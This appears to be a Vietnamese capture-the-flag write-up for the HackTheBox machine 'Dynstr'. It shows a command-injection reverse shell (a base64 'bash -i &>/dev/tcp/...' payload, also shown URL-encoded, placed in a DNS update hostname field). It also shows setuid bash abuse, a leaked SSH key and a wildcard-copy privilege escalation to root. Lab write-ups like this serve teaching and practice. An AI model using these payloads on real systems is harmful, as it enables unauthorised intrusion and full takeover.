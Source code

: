 # Write-up Machine "Dynstr" - Medium - HTB

## Bước 1: Enumeration

Sử dụng nmap để rà quét thì em thấy mục tiêu đang chạy web service trên cổng 80, SSH tại cổng 22 và DNS ở cổng 53: `nmap -p 10.10.10.244`

![](dynstr/1.jpg)

Truy cập web service tại cổng 80, ta được:

![](dynstr/2.jpg)

Chúng ta có được một số thông tin như domain, username và password:

![](dynstr/3.jpg)

Sử dụng gobuster để quét các đường dẫn trang web, em có được 1 đường dẫn là `/nic`. Đường dẫn `/nic` này có liên quan đến No-IP DDNS: https://www.noip.com/integrate/request.

![](dynstr/4.jpg)

## Bước 2: Lấy user flag

Theo hướng dẫn của trang web kia, ta tạo một requets gửi tới `/nic/update`, trong đó:

- myip là địa chỉ IP máy tấn công
- hostname em thử lần lượt 3 giá trị domains tìm được tại trang chính là: "dnsalias.htb", "dynamicdns.htb" và "no-ip.htb" đều không được, nhưng kết hợp cả 3 lại thành "dynamicdns.no-ip.htb" thì lại được
- Add thêm header `Authorization: Basic ZHluYWRuczpzbmRhbnlk` với `ZHluYWRuczpzbmRhbnlk` là giá trị mã hóa base64 của username:password tìm được tại trang chính (dynadns:sndanyd)

![](dynstr/5.jpg)

Trong quá trình tìm giá trị hostname, em nhận thấy nếu thêm các kí tự đặc biệt như `;` vào thì trang web sẽ trả về là `911 [nsupdate failed]`. Tìm hiểu về nsupdate thì em được biết đây là Dynamic DNS update utility, được dùng để submit Dynamic DNS update request.

![](dynstr/6.jpg)

Nếu như `nsupdate` là một binary thì có thể hệ thống sẽ thực thi nó, do vậy có thể khai thác để thực thi code, ở đây em sẽ sử dụng `nsupdate` để tạo một reverse shell. Payload: `bash -i &>/dev/tcp/10.10.14.37/9999 <&1` -> tạo reverse shell về cổng 9999, sau đó base64-encode payload được `YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx`. Payload hoàn chỉnh: ``echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx|base64 -d|bash``. Đoạn mã này sẽ in ra payload đã được mã hóa base64, sau đó giải mã và chạy nó sử dụng bash. Bước cuối cùng là URL Encode payload kia là xong: `%60echo%20YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx%7Cbase64%20-d%7Cbash%60`

![](dynstr/7.jpg)

Sau đó dùng netcat lắng nghe tại cổng 9999, nếu đoạn code kia thực thi thành công thì sẽ tạo được reverse shell, nhưng lúc này mới chỉ là user `www-data`

![](dynstr/8.jpg)

`cd /home` ta thấy máy mục tiêu có 2 user là `bindmgr` và `dyna`

![](dynstr/9.jpg)

Tại thư mục của user `bindmgr`, ta thấy có bash binary với setuid, sử dụng nó để leo từ user `www-data` lên user `bindmgr` và lấy được flag user

![](dynstr/10.jpg)

## Bước 3: Lấy system flag

Vẫn tại thư mục /home/binmgr, file support-case-C62796521/strace-C62796521.txt cung cấp cho ta OpenSSH private key

![](dynstr/11.jpg)


Tiếp theo cần add địa chỉ IP máy tấn công vào zone sử dụng `nsupdate`

    nsupdate -k /etc/bind/infra.key
    > update add test.infra.dyna.htb. 86400 A 10.10.14.37
    >
    >
    > update add 37.14.10.10.in-addr.arpa. 300 PTR test.infra.dyna.htb.
    > send

Sau đó sử dụng OpenSSH key lấy được ở trên để ssh vào máy nạn nhân

![](dynstr/12.jpg)

Sử dụng lệnh `sudo -l` để xem được user có thể thực thi lệnh nào với quyền root, ở đây user có thể thực thi `bindmgr.sh` với quyền root

![](dynstr/13.jpg)

Chúng ta sẽ xem thử file `bindmgr.sh`:

    #!/usr/bin/bash

    # This script generates named.conf.bindmgr to workaround the problem
    # that bind/named can only include single files but no directories.
    #
    # It creates a named.conf.bindmgr file in /etc/bind that can be included
    # from named.conf.local (or others) and will include all files from the
    # directory /etc/bin/named.bindmgr.
    #
    # NOTE: The script is work in progress. For now bind is not including
    #       named.conf.bindmgr. 
    #
    # TODO: Currently the script is only adding files to the directory but
    #       not deleting them. As we generate the list of files to be included
    #       from the source directory they won't be included anyway.

    BINDMGR_CONF=/etc/bind/named.conf.bindmgr
    BINDMGR_DIR=/etc/bind/named.bindmgr

    indent() { sed 's/^/    /'; }

    # Check versioning (.version)
    echo "[+] Running $0 to stage new configuration from $PWD."
    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done

    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

    # Check generated configuration with named-checkconf.
    echo "[+] Checking staged configuration."
    named-checkconf $BINDMGR_CONF >/dev/null
    if [[ $? -ne 0 ]] ; then
        echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
        named-checkconf $BINDMGR_CONF 2>&1 | indent
        exit 44
    else 
        echo "[+] Configuration successfully staged."
        # *** TODO *** Uncomment restart once we are live.
        # systemctl restart bind9
        if [[ $? -ne 0 ]] ; then
            echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
        else
        echo "[+] Restart of bind9 via systemctl succeeded."
        fi
    fi

Đi sâu vào từng phần:

    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

Đoạn script này sẽ kiểm tra .version đã tồn tại hay chưam nếu file chưa tồn tại thì chương trình sẽ thoát

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done
    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

Còn nếu file .version đã tồn tại thì chương trình sẽ tạo file `$BINDMGR_CONF` và copy file .version đến thư mục /etc/bind/named.bindmgr/

Do đó, ta sẽ tạo thử file .version với nội dung tùy ý: `echo 1 > .version` và chạy đoạn script `bindmgr.sh`

![](dynstr/14.jpg)

Kết quả cho thấy file .version và toàn bộ các file trong thư mục gốc đã được copy sang thư mục /etc/bind/named.bindmgr. 

Do toàn bộ các file trong thư mục đều được copy sang thư mục /etc/bind/named.bindmgr, nên giờ ta có thể tạo một bash binary, cấp quyền setuid, chạy script và bash binary đó sẽ được copy sang thư mục kia với ownership = root, từ đó ta có thể đạt được root shell.

![](dynstr/15.jpg)

Tiến hành chạy đoạn script, sau đó chạy file bash tại thư mục /etc/bind/named.bindmgr là sẽ đạt được root shell

![](dynstr/16.jpg)
